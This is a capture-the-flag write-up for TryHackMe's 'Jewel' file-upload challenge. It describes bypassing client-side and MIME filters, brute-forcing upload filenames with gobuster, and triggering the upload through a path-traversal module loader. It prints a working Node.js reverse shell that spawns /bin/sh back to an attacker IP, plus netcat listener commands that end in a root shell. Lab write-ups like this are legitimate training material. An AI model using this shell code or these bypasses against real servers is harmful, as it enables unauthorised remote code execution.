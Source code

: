 # THM-Jewel-write-up
Write up for the last challenge in "Upload vulnerabilities" room, called Jewel


# Jewel

## Initial Reconnaissance
Navigating to the website we are face with a simple upload functionality.

In the background, gobuster is using seclist web directory brute force to find possible upload destinations.


Upon inspection of the source code we find that:
* There is a possible /assets directory (/assets/title.svg presents us with a nice vector picture) 
* There are two custom Java Scripts running

### Background.js

Might as well intercept and drop it, no need for flashing background...

### Upload.js

Here we can see the first of the filters - it is a client side filter that checks:

1. File size to be under 50kb
2. Magic number to be that of an Joint Photographic Experts Group
3. Whitelisting the extension to be only JPG or JPEG.

We intercept these in burp, and remove client side filtering.

## Further reconnaissance 

Intercepting server responses reveals that:

* Server is nginx/1.17.6
  * no CVE available
* Website is built with Express i.e. (Node.js)
  * This means we will be dropping a java-script reverse shell

### Server side filter

* No magic number checking
* Size checking in place - between 240 and 380 kb - should be sufficient for any reverse shell
* No filter checking in place
* MIME checking in place - easily spoofed, with interception of the request

Once we have understood and bypassed all filters, I uploaded a reverse shell in java script.
The file is called nodejs\_reverse.js. Let's find where it is.

## Finding the files

Output of Go-Buster:


```
        /content              (Status: 301) [Size: 181] [--> /content/]
        /admin                (Status: 200) [Size: 1238]               
        /assets               (Status: 301) [Size: 179] [--> /assets/] 
        /modules              (Status: 301) [Size: 181] [--> /modules/]
        /Hannes_Alfv%E9n      (Status: 400) [Size: 1099]               
        /Alfv%E9n_wave        (Status: 400) [Size: 1097]               
        /Enciclopedia_Libre_Universal_en_Espa%F1ol (Status: 400) [Size: 1125]
        /mosquitologof%FCrshopfigurklein_3 (Status: 400) [Size: 1117]        
        /Post%2Dit%AE%5FSoftware%5FNotes%5F3%2E1%5F%5F%2D%5FStandard (Status: 400) [Size: 1143]
```

**However** there was no file in /modules or /content. 
The /admin sight however allows you to load arbitrary modules.

We can see how this could be abused if we could locate our shell in /content
         -> we could load a "../content/shell" :)

##  Naming convention

Upon long time of struggle to locate the uploaded shell, I have spotted that pictures which alternate in the background of the main website are called:

* ABH.jpg
* LKQ.jpg
* SAD.jpg
* UAD.jpg

this looks like 3 letter random naming scheme. So, quick python script:

```
A = "ABCDEFGHIJKLMNOPQRSTUWVXYZ"

for i in A:
    for j in A:
        for k in A:
            print(i+j+k)
```

called in such a fashion to create a wordlist:

```
python3 wordlist_creator.py > wordlist.txt
```

I will not include the wordlist as it is 27^3 lines long (17,576).
It's a list of characters combination from AAA to ZZZ.

### Finding the shell

Time to find our uploaded shell, using the wordlist, and looking for jpg extension:

```
gobuster dir -u http://jewel.uploadvulns.thm/content -w wordlist -x jpg  
```

Output is as follows:

```
/ABH.jpg              (Status: 200) [Size: 705442]
/LKQ.jpg              (Status: 200) [Size: 444808]
/SAD.jpg              (Status: 200) [Size: 247159]
/UAD.jpg              (Status: 200) [Size: 342033]
/VNH.jpg              (Status: 200) [Size: 374]   
```

So we have found our shell as /VNH.jpg!

Let's open up a listener with 

```
nc -lnvp 4444
```



Nothing....


My code for the reverse shell

```
(function(){
    var net = require(net),
        cp = require(child_process),
        sh = cp.spawn(/bin/sh, []);
    var client = new net.Socket();
    client.connect(4444, "10.9.2.73", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

Re-writing to:

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.9.2.73", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

re-running go-buster:
```
/ABH.jpg              (Status: 200) [Size: 705442]
/EIJ.jpg              (Status: 200) [Size: 379]   
/LKQ.jpg              (Status: 200) [Size: 444808]
/SAD.jpg              (Status: 200) [Size: 247159]
/UAD.jpg              (Status: 200) [Size: 342033]
/VNH.jpg              (Status: 200) [Size: 374]   
```

And now:

```
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.9.2.73] from (UNKNOWN) [10.10.197.166] 59014
whoami
root
cat /var/www/flag.txt
